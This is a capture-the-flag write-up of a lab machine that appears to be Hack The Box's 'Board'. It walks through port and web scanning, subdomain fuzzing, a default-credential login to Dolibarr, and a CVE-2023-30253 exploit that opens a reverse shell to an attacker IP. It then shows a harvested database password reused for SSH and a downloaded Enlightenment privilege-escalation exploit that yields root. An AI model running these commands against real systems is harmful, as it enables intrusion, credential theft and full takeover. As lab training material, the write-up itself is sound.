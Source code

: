 ## Target Information
- **IP Address**: 10.10.11.11

## Open Ports
An Nmap scan was conducted to identify open ports on the target machine.

```bash
$ nmap -sV 10.10.11.11
```

### Nmap Scan Results
```bash
Starting Nmap 7.94SVN (https://nmap.org) at 2024-09-19 14:54 BST
Nmap scan report for 10.10.11.11
Host is up (0.027s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Vulnerability Scanning
A vulnerability scan was performed using Nikto to identify potential security issues.

```bash
$ nikto -host 10.10.11.11 -p 22,80
```

### Nikto Scan Results
```sh
- Nikto v2.5.0
+ Target IP:          10.10.11.11
+ Target Hostname:    10.10.11.11
+ Target Port:        80
+ Start Time:         2024-09-19 14:57:36 (GMT1)
+ Server: Apache/2.4.41 (Ubuntu)
+ /: The anti-clickjacking X-Frame-Options header is not present.
+ /: The X-Content-Type-Options header is not set.
+ Apache/2.4.41 appears to be outdated (current is at least Apache/2.4.54).
+ /: Web Server returns a valid response with junk HTTP methods which may cause false positives.
+ 8050 requests: 0 error(s) and 4 item(s) reported on remote host
+ End Time:           2024-09-19 15:02:03 (GMT1) (267 seconds)
```

### Identified Vulnerabilities
- Missing security headers (X-Frame-Options, X-Content-Type-Options)
- Outdated Apache version

## Directory Busting
Directory enumeration was performed using DIRB to discover hidden directories and files.

```
$ dirb http://10.10.11.11 "/usr/share/wordlists/dirb/common.txt"
```

### DIRB Scan Results
```bash
==> DIRECTORY: http://10.10.11.11/css/
==> DIRECTORY: http://10.10.11.11/images/
+ http://10.10.11.11/index.php (CODE:200|SIZE:15949)
==> DIRECTORY: http://10.10.11.11/js/
+ http://10.10.11.11/server-status (CODE:403|SIZE:276)
```

## Subdomain Enumeration
Fuzzing was conducted to identify subdomains associated with the target.

```bash
$ ffuf -w '/usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt' -u http://board.htb/ -H "HOST: FUZZ.board.htb" -c -fs 15949
```

### Fuzzing Results
```bash
crm                     [Status: 200, Size: 6360, Words: 397, Lines: 150, Duration: 63ms]
```

## Exploitation
The subdomain `crm.board.htb` was identified, leading to a login portal for Dolibarr version 17.0.0. 

### Authentication
Using the credentials `admin:admin`, access to the portal was successfully obtained.

### Vulnerability Identification
Research on Dolibarr 17.0.0 revealed the presence of **CVE-2023-30253**, which allows for remote code execution when authenticated.

### Exploit Execution
The exploit was downloaded and executed as follows:

```bash
$ python3 exploit.py http://crm.board.htb admin admin 10.10.14.133 9001
```

A reverse shell was established using the command:

```bash
$ nc -lvnp 9001
```

### File System Exploration
Upon gaining access, the `/home` directory was explored, revealing a directory named `larissa`, which was inaccessible due to permission restrictions. 

### Configuration File Discovery
The configuration file `conf.php` was located at `crm.board.htb/htdocs/conf`. The contents of the file provided critical information regarding the database configuration and authentication settings:

```php
$dolibarr_main_url_root='http://crm.board.htb';
$dolibarr_main_document_root='/var/www/html/crm.board.htb/htdocs';
$dolibarr_main_url_root_alt='/custom';
$dolibarr_main_document_root_alt='/var/www/html/crm.board.htb/htdocs/custom';
$dolibarr_main_data_root='/var/www/html/crm.board.htb/documents';
$dolibarr_main_db_host='localhost';
$dolibarr_main_db_port='3306';
$dolibarr_main_db_name='dolibarr';
$dolibarr_main_db_prefix='llx_';
$dolibarr_main_db_user='dolibarrowner';
$dolibarr_main_db_pass='serverfun2$2023!!';
$dolibarr_main_db_type='mysqli';
$dolibarr_main_db_character_set='utf8';
$dolibarr_main_db_collation='utf8_unicode_ci';
// Authentication settings
$dolibarr_main_authentication='dolibarr';
```

### Database Access
Using the credentials extracted from the configuration file, access to the MySQL database was attempted:

```bash
$ mysql -u dolibarrowner -p
```

Upon successful authentication, the same credentials were used to establish an SSH connection to the target machine, allowing further exploration of the file system.

### User Flag Retrieval
After logging in via SSH, the user flag was located in the `user.txt` file:

```bash
User Flag: cc4868fcbf4bdd278e604885b2dc94c2
```

## Privilege Escalation
To escalate privileges, a search for setuid binaries was conducted:

```bash
$ find / -perm -u=s -type f 2>/dev/null
```

This search revealed the presence of a software package called **Enlightenment**, which was found to be affected by **CVE-2022-37706**.

### Exploit Execution for Privilege Escalation
An exploit for CVE-2022-37706 was downloaded from GitHub:

```bash
$ wget https://github.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit
```

The exploit was then transferred to the target machine's `/tmp/` directory using SCP:

```bash
$ scp exploit.sh larissa@10.10.11.11:/tmp/
```

After transferring the exploit, it was executed to gain root access:

```bash
$ chmod +x /tmp/exploit.sh
$ /tmp/exploit.sh
```

### Root Flag Retrieval
Upon successful execution of the exploit, root access was obtained. The root flag was located in the root directory:

```bash
Root Flag: ee4f5ede56377b48f5554ca143d3175b
```

## Conclusion
This CTF challenge involved multiple stages, including reconnaissance, vulnerability scanning, exploitation, and privilege escalation. The successful retrieval of both the user and root flags demonstrates the effectiveness of the identified vulnerabilities and the execution of the corresponding exploits. 

### Flags Summary
- **User Flag**: `cc4868fcbf4bdd278e604885b2dc94c2`
- **Root Flag**: `ee4f5ede56377b48f5554ca143d3175b`

This write-up serves as a comprehensive overview of the methodologies and techniques employed during the engagement with the target system.